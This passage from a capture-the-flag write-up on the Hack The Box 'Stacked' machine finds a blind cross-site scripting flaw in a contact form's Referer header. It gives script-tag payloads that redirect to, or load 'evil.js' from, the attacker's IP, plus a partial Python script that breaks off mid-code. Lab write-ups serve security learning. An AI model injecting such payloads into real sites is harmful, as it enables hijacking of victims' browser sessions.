 ![](../../../.gitbook/assets/htb-stacked-image-5.png)

I was stuck here for really long. I could not bypass this weird check in any way. I thought about the fact that this `process.php` might be storing more than the actual message. It might be storing some additional information about the sender through the different HTTP headers.

I replaced the some of the HTTP headers with `<script>document.location="http://10.10.14.18/hiiamxss_HEADERNAME"</script>`. I did this for the `User-Agent`, `Origin` and `Referer` headers (the only ones without erroring out).

After a bit, I got a hit on my Python HTTP server:

![](../../../.gitbook/assets/htb-stacked-image-6.png)

The `Referer` header is vulnerable! Using this, I can now create a script to automate this.

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://portfolio.stacked.htb'

headers = {
        'Referer':'<script src="http://10.10.14.18/evil.js"/>'
}
data = {
        'fullname':'Test',
        'email':'test@test.com',
        'tel':'111111111111',
        'subject':'t',
        'message':'yo!'
```